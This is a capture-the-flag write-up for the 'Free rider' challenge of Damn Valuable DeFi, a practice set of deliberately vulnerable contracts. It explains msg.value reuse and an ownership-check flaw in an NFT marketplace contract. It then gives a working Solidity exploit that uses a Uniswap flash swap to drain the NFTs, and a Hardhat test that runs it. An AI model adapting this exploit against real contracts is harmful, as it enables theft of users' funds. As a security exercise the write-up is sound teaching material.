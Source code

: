# Challenge #10 - Free rider     
 A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

 A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

 You want to build some rep with this buyer, so you've agreed with the plan.

 Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.  

## Vulnerability
Looking at the FreeRiderNFTMarketplace.sol contract we can see there's a logical error in the buyOne().
There are 2 problems:    
1. Bad use of msg.value without updating it after the loop, that gives us the ability to get unlimited NFTs 
for the price of 1. (line 72)
2. Logical error on checking the ownerOf the NFT after transfering the token, as 
when the contract transfers the token it changes the ownership instantly from the seller to buyer.  
This is going to allow an attacker to extract funds from the contract. (line 80)

We start with 0.5 ether and in order to exploit the contract we need 15 eth so we need 
to find a way to get that money. That way is done using flash Swaps from uniswap v2. This will 
allow us to get a loan with the amount of money we need to get the NFTs as long as we pay it back. 

## Exploit 
In order to do this we need to craft our own exploitable contract.  

```sol
pragma solidity ^0.8.0;

import "@uniswap/v2-core/contracts/interfaces/IUniswapV2Pair.sol";
import "@uniswap/v2-periphery/contracts/interfaces/IUniswapV2Router02.sol";
import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";

interface IDamnValuableNFT {
	function safeTransferFrom(address, address, uint) external;
}

interface IFreeRiderNFTMarketplace {
	function buyMany(uint256[] calldata tokenIds) external payable;
}

interface IWETH9 {
	function deposit() external payable;
	function withdraw(uint wad) external;
	function transferFrom(address src, address dst, uint wad) external returns (bool);
}

contract FREE_RIDER_EXPLOIT {

	address buyer;
	IUniswapV2Pair pair;
	IWETH9 weth;
	IFreeRiderNFTMarketplace marketplace;
	IUniswapV2Router02 router;
	IDamnValuableNFT nft;

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
		// Convert WETH to ETH
		weth.withdraw(amount0);
		// Init tokenIds
		uint256[] memory tokenIds = new uint256[](6);
        for (uint256 i = 0; i < 6; i++) {
            tokenIds[i] = i;
        }
		// Steal NFTs
		marketplace.buyMany{value: amount0}(tokenIds);
		// Return Uniswap loan
		uint returnAmount = amount0 + 0.1 ether;
		weth.deposit{value: returnAmount}();
		weth.transferFrom(address(this), msg.sender, returnAmount);
		// Transfer NFTs to attacker
        for (uint256 i = 0; i < 6; i++) {
			nft.safeTransferFrom(address(this), address(buyer), i);	
		}
	}

	function exec(
		address _pair,
		address _token0,
		address _token1,
		address _marketplace,
		address _router,
		address _nft,
		address _buyer
	) external {
		buyer = _buyer;
		marketplace = IFreeRiderNFTMarketplace(_marketplace);
		weth = IWETH9(_token1); 
		router = IUniswapV2Router02(_router);
		nft = IDamnValuableNFT(_nft);
		pair = IUniswapV2Pair(_pair);
		// Get Flash loan for 15 WETH
		pair.swap(
			15 ether,
			0,
			address(this),
			bytes('not empty')
		);	
	}

    // Interface required to receive NFT as a Smart Contract
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external pure returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    receive() external payable {}
}
```  
Finnally, we just need to execute it and and see our balance grow.   

```js
    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
		//Deploy Exploit 
		this.exploit = await (await ethers.getContractFactory('FREE_RIDER_EXPLOIT', attacker)).deploy();
		await this.exploit.exec(
			this.uniswapPair.address,
			this.token.address,
			this.weth.address, 
			this.marketplace.address,
			this.uniswapRouter.address,
			this.nft.address,
			this.buyerContract.address
		);
    });

```

